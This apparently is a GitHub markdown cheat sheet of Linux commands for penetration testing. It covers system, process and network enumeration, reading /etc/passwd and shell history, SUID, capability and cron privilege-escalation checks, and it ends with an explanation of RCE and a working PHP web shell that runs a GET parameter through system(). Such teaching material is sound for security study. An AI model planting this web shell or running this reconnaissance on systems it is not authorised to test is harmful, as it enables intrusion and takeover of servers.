 # Useful linux commands for the cyber security

## Enumeration
### System Information
- `hostname`
- `uname -a`
- `cat /proc/version`
- `cat /etc/issue`

### Process Information
- `ps`
- `ps -A`
- `ps axjf`
- `ps aux`

### Environment Information
- `env`

### Sudo Privileges
- `sudo -l`

### File and Directory Information
- `ls`
- `ls -la`

### User and Privilege Information
- `id`
- `cat /etc/passwd`

### Command History
- `history`

### Network Information
- `ifconfig`
- `ip route`
- `netstat`
  - `netstat -a`
  - `netstat -at`
  - `netstat -au`
  - `netstat -l`
  - `netstat -s`
  - `netstat -tp`
  - `netstat -ano`
  - `netstat -i`

### File Search
- `find . -name <filename>`
- `find /home -name <filename>`
- `find / -type d -name <directory_name>`
- `find / -type f -perm 0777`
- `find / -perm a=x`
- `find /home -user <username>`
- `find / -mtime <days>`
- `find / -atime <days>`
- `find / -cmin -<minutes>`
- `find / -amin -<minutes>`
- `find / -size <size>`
- `find / -size +<size>`
- `find / -size -<size>`

### Finding the SUID/SGID Bits (P)
- `find / -type f -perm -04000 -ls 2>/dev/null` (Privilege Escalation)

### Shows Capabilities
- `getcap -r / 2>/dev/null` (Privilege Escalation)

### Shows Running Cron Jobs
- `cat /etc/crontab` (Privilege Escalation)

### Insecure $PATH vulnerability
- `find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u` (Privilege Escalation)

# Exploitation techniques
## Remote Code Execution (RCE)
- RCE: Remote code execution (RCE) happens when an attacker finds a way to run their own code on a system. This is a highly dangerous vulnerability because it can allow the attacker to take control of the system, exfiltrate sensitive data, or compromise other connected systems.
- Web shell: A web shell is a script that attackers upload to a vulnerable server, giving them remote control over it. Once a web shell is in place, attackers can run commands, manipulate files, and essentially use the compromised server as their own. They can even use it to launch attacks on other systems.

- Simple web shell code:
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>```

